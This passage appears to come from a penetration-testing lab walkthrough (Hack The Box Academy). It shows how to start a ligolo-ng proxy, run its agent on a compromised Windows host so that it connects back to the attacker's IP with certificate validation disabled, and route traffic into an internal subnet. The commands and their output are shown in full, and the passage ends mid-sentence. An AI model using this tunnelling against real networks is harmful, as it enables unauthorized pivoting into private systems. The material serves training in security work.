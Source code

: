 Code: shell

```shell
./proxy -selfcert
```

```shell-session
┌─[eu-academy-5]─[10.10.14.221]─[htb-ac-8414@htb-d4d4brjin5]─[~]
└──╼ [★]$ ./proxy -selfcert

WARN[0000] Using default selfcert domain 'ligolo', beware of CTI, SOC and IoC! 
WARN[0000] Using self-signed certificates               
ERRO[0000] Certificate cache error: acme/autocert: certificate cache miss, returning a new certificate 
WARN[0000] TLS Certificate fingerprint for ligolo is: A910475F1FBB2F071C47BC3CCF0685188A816C82CB654A25505479E67071293B 
INFO[0000] Listening on 0.0.0.0:11601                   
    __    _             __                       
   / /   (_)___ _____  / /___        ____  ____ _
  / /   / / __ `/ __ \/ / __ \______/ __ \/ __ `/
 / /___/ / /_/ / /_/ / / /_/ /_____/ / / / /_/ / 
/_____/_/\__, /\____/_/\____/     /_/ /_/\__, /  
        /____/                          /____/   

  Made in France ♥            by @Nicocha30!
  Version: 0.6.2

ligolo-ng » 
```

Subsequently, students will return to the RDP session to establish the dynamic port-forwarding using the agent previously transferred:

Code: powershell

```powershell
.\agent.exe -connect PWNIP:11601 -ignore-cert
```

```powershell-session
PS C:\Users\helen> .\agent.exe -connect 10.10.14.221:11601 -ignore-cert

time="2024-07-11T03:49:21-05:00" level=warning msg="warning, certificate validation disabled"
time="2024-07-11T03:49:21-05:00" level=info msg="Connection established" addr="10.10.14.221:11601"
```

Subsequently, students need to return to their workstations, open a new tab, and proceed to add a new network interface based on their usernames in the workstation (e.g. `htb-ac-XXXX`) and the subnet of the internal network. Additionally, students will query the `my_credentials.txt` file located on the Desktop to get t

Code: shell

```shell
cat Desktop/my_credentials.txt | grep Username
sudo ip tuntap add user <htb-ac-XXXX> mode tun ligolo
sudo ip link set ligolo up
sudo ip route add 172.20.0.0/24 dev ligolo
```
